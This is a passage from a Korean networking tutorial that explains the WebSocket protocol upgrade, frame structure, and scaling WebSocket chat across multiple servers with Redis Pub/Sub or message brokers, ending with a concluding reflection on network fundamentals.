

#### 101 Switching Protocols의 의미
서버가 `101 Switching Protocols`를 응답하는 순간, TCP 소켓 연결은 그대로 유지된 채 상위 프로토콜이 HTTP에서 **WebSocket 프로토콜(`ws://` 또는 TLS가 적용된 `wss://`)**로 즉시 전환됩니다.

---

### 13.3 WebSocket 프레임 구조와 극단적인 경량성

HTTP 요청은 매번 URL, User-Agent, 쿠키 등 최소 수백 바이트에서 수 킬로바이트의 무거운 헤더를 달고 다닙니다.  
반면 웹소켓 연결이 맺어진 후 오가는 데이터는 **프레임(Frame)** 단위로 전송되며, **최소 헤더 오버헤드가 단 2바이트(Byte)**에 불과합니다. 불필요한 메타데이터 전송이 완전히 사라지므로 대역폭 낭비가 극적으로 줄어듭니다.

- **Opcode**: 전송 데이터 타입 구분 (텍스트: `0x1`, 바이너리: `0x2`, 닫기: `0x8`, Ping: `0x9`, Pong: `0xA`).
- **Masking**: 클라이언트에서 서버로 보낼 때는 보안(캐시 오염 방지)을 위해 페이로드를 4바이트 마스킹 키로 난수화하여 전송합니다.

---

### 13.4 실무 아키텍처: 다중 서버 환경에서 WebSocket 세션 확장

단일 서버 환경에서는 웹소켓 객체를 서버 메모리에 담아두고 브로드캐스팅하면 되지만, 사용자가 수십만 명으로 늘어나 서버가 10대로 증설(Scale-Out)되면 문제가 발생합니다.

```
[사용자 A (1번 서버 접속)] ────(채팅: "안녕하세요")────> [ WAS 1 ]
                                                        │ (어? B는 내 메모리에 없는데?)
[사용자 B (2번 서버 접속)] <──(메시지 도달 실패!)─────── [ WAS 2 ]
```

이를 해결하기 위해 실무에서는 중앙에 **Redis Pub/Sub**이나 **Apache Kafka, RabbitMQ** 같은 초고속 메시지 브로커를 연동합니다.

```
[사용자 A] ──> [ WAS 1 ] ──(Publish: "안녕하세요")──> [ Redis Pub/Sub 채널 ]
                                                            │
                 ┌──────────────────────────────────────────┘ (Broadcast)
                 ▼
             [ WAS 2 ] ──(WebSocket Push)──> [사용자 B]
```

1. 1번 서버는 사용자 A의 메시지를 받아 Redis의 특정 채팅방 토픽(Topic)으로 `Publish`합니다.
2. 해당 토픽을 구독(`Subscribe`)하고 있던 2번 서버가 메시지를 감지하고, 자신에게 웹소켓으로 붙어있는 사용자 B에게 메시지를 즉각 밀어 넣어줍니다.  
이로써 서버 인스턴스가 수백 대로 늘어나도 전 세계 사용자가 지연 없이 실시간 대화를 나눌 수 있게 됩니다.

---

## 맺음말: 네트워크를 이해하는 엔지니어가 만드는 시스템

지금까지 우리는 클라이언트와 서버가 3-Way Handshake를 통해 물리적 선로 위에 가상 회선을 수립하는 순간부터, DNS를 거쳐 목적지를 찾고, 웹 서버와 WAS가 분업하며, 캐시와 고성능 프로토콜로 지연을 줄이고, 브라우저 엔진이 화면을 픽셀로 그려내기까지의 모든 여정을 살펴보았습니다.

네트워크는 눈에 보이지 않는 거대한 추상화의 계층들로 이루어져 있습니다. 하지만 장애가 발생하거나 시스템이 수백만 트래픽의 임계점에 도달했을 때, 성능 병목의 근본 원인을 파헤치고 우아한 해결책을 제시할 수 있는 힘은 결국 **"패킷이 지금 어느 계층에서 어떤 규약으로 흐르고 있는가?"**를 머릿속에 시각화할 수 있는 네트워크 통찰력에서 비롯됩니다. 이 탄탄한 기본기가 여러분을 뛰어난 시스템 아키텍트로 안내할 것입니다.
